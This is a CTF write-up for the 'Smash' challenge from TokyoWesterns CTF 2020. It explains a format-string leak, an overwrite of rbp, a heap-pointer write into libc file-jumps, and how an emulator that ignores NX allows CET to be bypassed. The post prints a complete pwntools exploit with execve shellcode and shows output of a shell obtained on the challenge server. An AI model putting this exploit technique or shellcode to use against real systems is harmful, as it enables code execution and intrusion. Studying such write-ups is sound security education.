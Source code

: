 ```yaml
---
layout: "post"
title: "Smash - TokyoWesterns CTF 2020"
date: 2020-09-22
tags: [Format Strings, File Structures, Shellcode, Shadown Stack, CTF]
---
```



**tl;dr**

+ Leak with Format String bug.
+ Use the arbitrary heap pointer write to overwrite `__GI__IO_file_jumps`.
+ Inject shellode in heap and get code execution in `dfprintf`.

<i!--more-->

**Challenge Points:** 388
**Solves:** 9

We really had a great time this weekend playing this year's edition of TokyoWesterns CTF. In this post I'd like to share the intended solution for the challenge **Smash** which we could not solve during the CTF but the idea and the concept involved is worth sharing.

## Challenge description

To begin with , we've been provided with the challenge binary , `libc 2.31`, a runner bash script and a folder containing Intel's tool called Control-flow Enforcement Technology (CET).This was our first tackel with Intel's CET and the concept involved is truly worth sharing. 

```py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

All mitigations except canary have been enabled.

## Reversing

+ The input name function takes 0x20 bytes of user input and then does an `strdup` which stores our input on heap.
+ Next , `dprintf` is called on our input without any format specifier, hence we can leak required addresses with the format string bug.
+ After this , we're asked to enter `y` or `n` and if `y` is entered , the program further asks for another `input message` and then takes in another 0x38 bytes of input.
+ If `n` is entered , the program prints `Bye` with dprintf and directly exits.

Pretty straight forward, but where are the bugs?

## Exploit development

We actually have 2 overflows which let us corrupt rbp and pivot to almost anywhere, but wait, CET doesn't allow us to execute ROP chain directly. We have to find a way to get code execution.

### How Intel's CET works

Control-Flow Enforcement Technology promises to guard a binary against attacks such as ROP, JOP etc. It does so by allocating a `shadow stack` in mapped memory region. Whenever a function is called, apart from storing the return address on the program's thread stack , it also stores it on the shadow stack. So whenever the program returns from the function, the return address is comapared with the one stored on the shadow stack , if a match is found, the program executes smoothly,  and if not , the program aborts thus mitigating ROP.

Intel SDE provides an emulation that includes:

* Stack checks
* Indirect branch checks

From the above discussion, one thing gets clear , every function that is executed in the supervision of CET needs to begin with `endbr64`. Let's just bear that in mind and continue.

## In search of arbitrary write

Since we have our required leaks , we can now corrupt rbp with our first overflow in the step where program asks us to enter `y` or `n`. 

An important observation to be made here is that , after reading our input and storing on heap with strdup, the program copies the heap pointer to an offset of `rbp-0x8`.

Since , we overwrote rbp with an address of our choice , after the function executes `leave` , the rbp will be updated with the value that we specified.

Immediately after that, the following instructions copy the heap pointer storing our input to `rbp-0x8`.

```sh
mov    QWORD PTR [rbp-0x8],rax
mov    rax,QWORD PTR [rbp-0x8]
```

Thus , we have an arbitrary write of a heap pointer.

## Defeating CET

After analyzing a bit ,  we found out that the emulator that the CTF has provided us with does not check for the `NX` bit and few pages have been marked `read-write-executable` allowing us to now inject shellcode.

Now that we can execute shellode, we have to now select a target to get code execution.

## dprintf to the rescue

One important aspect of dprintf is that it uses a `temporary file structure` to carry out it's operations. With file structure operations, we can find out apt targets to get code execution. One such target function pointer is `_IO_new_file_finish` which is called internally inside `dprintf`. 

So , now our plan is :

+ Overwrite rbp to point to `_IO_new_file_finish + 8`.
+ Copy heap address to `_IO_new_file_finish`.
+ Fill heap with shellcode as CET doesn't implement NX.
+ Get code execution in dprintf.

Here's the full exploit code.

```py

from pwn import *
import sys

LIBC = ELF('./libc-2.31.so',checksec = False)
if(len(sys.argv)>1):
    io=remote("pwn01.chal.ctf.westerns.tokyo",29246)
    context.noptrace = True
else:
    io=process("./smash")

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


if __name__ == "__main__":
    gdb.attach(io)
    sla('> ','%p '*9)
    re(55)
    stack = int(re(14),16)
    log.info("stack = " + hex(stack))
    re(1)
    code = int(re(14),16) - 0x1216
    log.info("code = " + hex(code))
    re(7)
    libc = int(re(14),16) - 0x270b3
    log.info("libc = " + hex(libc))
    target_stack = code + 0x40e8 #to be changed
    inp = stack - 0x60
    IO_file_jumps = libc + 0x1ed4a0
    pop_rdi = code + 0x000013d3
    payload  = b"\xf3\x0f\x1e\xfa" # endbr64
    payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    payload += b"\x90" * (0x30 - len(payload))
    payload += p64(IO_file_jumps + 0x10 + 8)[:6]
    sa('[y/n] ',payload)
    #sla('message > ','write to shadow')
    io.interactive()
```

Remember that the shellcode has to be started with `endbr64` instruction to bypass the indirect branch instruction check.

```sh
[+] Opening connection to pwn01.chal.ctf.westerns.tokyo on port 29246: Done
[!] Skipping debug attach since context.noptrace==True
[*] stack = 0x7fffc7eb4d00
[*] code = 0x55a74550c000
[*] libc = 0x7f498f5bb000
[*] Switching to interactive mode

Bye!
$ ls
flag.txt
run.sh
sde
sde.tgz
smash
$ cat flag.txt
TWCTF{17_15_ju57_4n_3mul470r,n07_r34l_CET}
```


## Conclusion

This was one of the most interesting challenges I had come across in a while. The idea of a faulty emulator and CET was really cool. Kudos to team TokyoWesterns for such a cool challenge and such an awesome CTF.
